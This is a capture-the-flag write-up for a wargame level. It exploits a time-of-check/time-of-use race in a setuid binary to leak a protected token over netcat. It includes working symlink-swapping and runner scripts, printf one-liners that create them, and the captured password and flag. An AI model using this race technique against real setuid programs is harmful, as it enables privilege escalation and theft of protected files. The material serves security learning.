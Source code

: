 # Level 10

## Resolution

As `level10`, running `ls` gives us a binary called `level10` and a file named `token`. We don't have reading rights on the token but we can test the binary.

```shell
  $> ./level10 
  ./level10 file host
    sends file to host if you have access to it
  $> ./level10 token localhost
  You dont have access to token
  $> echo "valid" > /tmp/valid
  $> ./level10 /tmp/valid <VM-IP>
  Connecting to <VM-IP>:6969 .. Unable to connect to host <VM-IP>
```

> This binary tries to connect on port `6969` of the given IP.

To understand what does the binary do we can use `ltrace`.

```shell
  $> ltrace ./level10 /tmp/valid 192.168.1.73
  __libc_start_main(0x80486d4, 3, 0xbffff7c4, 0x8048970, 0x80489e0 <unfinished ...>
  access("/tmp/valid", 4)                                      = 0
  printf("Connecting to %s:6969 .. ", "192.168.1.73")         = 35
  fflush(0xb7fd1a20Connecting to 192.168.1.73:6969 .. )                                          = 0socket(2, 1, 0)                                             = 3
  inet_addr("192.168.1.73")                                   = 0x4901a8c0
  htons(6969, 1, 0, 0, 0)                                     = 14619
  connect(3, 0xbffff70c, 16, 0, 0)                            = -1
  printf("Unable to connect to host %s\n", "192.168.1.73"Unable to connect to host 192.168.1.73     
  )    = 39
  exit(1 <unfinished ...>
  +++ exited (status 1) +++
```

After checking manuals for the listed functions, we can identify a vulnerability through [`access`](https://man7.org/linux/man-pages/man2/faccessat.2.html) called [time to check to time of use](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use) induced by a race condition.

> Warning: Using these calls to check if a user is authorized to, for example, open a file before actually doing so using [open(2)](https://man7.org/linux/man-pages/man2/open.2.html) creates a security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it.

We need to open port `6969` and listen for requests. Achieving this with [`nc`](https://linux.die.net/man/1/nc) is trivial.

```shell
  $> nc -lk 6969
```

> `-l` is used to listen for incoming connections and `-k` will make this listener lasting until termination rather that after the first received connection.

Now that `6969` is open, we can try to send data once more.

```shell
  $> ./level10 /tmp/valid <VM-IP>
  Connecting to <VM-IP>:6969 .. Connected!
  Sending file .. wrote file!
```

On the `nc` side, we get the following.
```shell
  .*( )*.
  valid
```

So we can safely assume that if we can send and read `token`, we'll see the password for `flag10` prompted the same way as this test had. For this to work we'll need two scripts... One that does the attack...

```bash
#!/bin/bash

while true;
do
  touch /tmp/link
  rm -f /tmp/link
  ln -s /home/user/level10/token /tmp/link
  rm -f /tmp/link
done
```

> It creates a file on which we have read rights then deletes it to create a symbolic link with the same name that redirects to the file we want to extract the content.

... and one that runs the command in parallel.

```bash
#!/bin/bash

IP=`ifconfig | grep -A1 "eth3" | grep "inet" | cut -d ":" -f2 | cut -d " " -f1`

while true;
do
  /home/user/level10/level10 /tmp/link $IP > /dev/null
done
```
> It retrieves the IP automatically and discards any output. It will be helpful during the attack.

All we have to do now is to run those two scripts in background and use `nc` to catch the content of `token`.

```shell
  $> /tmp/race-condition.sh &
  $> /tmp/auto-send.sh &
  $> nc -lk 6969
  ...
  .*( )*.
  woupa2yuojeeaaed06riuj63c
  .*( )*.
  ...
```

Use this string to log as `flag10` and run `getflag` to finish this level.

```shell
  $> su flag10
  Password: woupa2yuojeeaaed06riuj63c
  $> getflag
  Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

So, `feulo4b72j7edeahuete3no7c` is the flag for this level.

## Commands

- Automatic send script

  ```shell
    printf '#!/bin/bash\nIP=`ifconfig | grep -A1 "eth3" | grep "inet" | cut -d ":" -f2 | cut -d " " -f1`\nwhile true;\ndo\n\t/home/user/level10/level10 /tmp/link $IP > /dev/null\ndone\n' > /tmp/auto-send.sh && chmod 777 /tmp/auto-send.sh
  ```

- Race-condition attack script

  ```shell
    printf '#!/bin/bash\nwhile true;\ndo\n\ttouch /tmp/link\n\trm -f /tmp/link\n\tln -s /home/user/level10/token /tmp/link\n\trm -f /tmp/link\ndone\n' > /tmp/race-condition.sh && chmod 777 /tmp/race-condition.sh
  ```

## Ressources

- [time to check to time of use](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use)
- [netcat](https://en.wikipedia.org/wiki/Netcat)
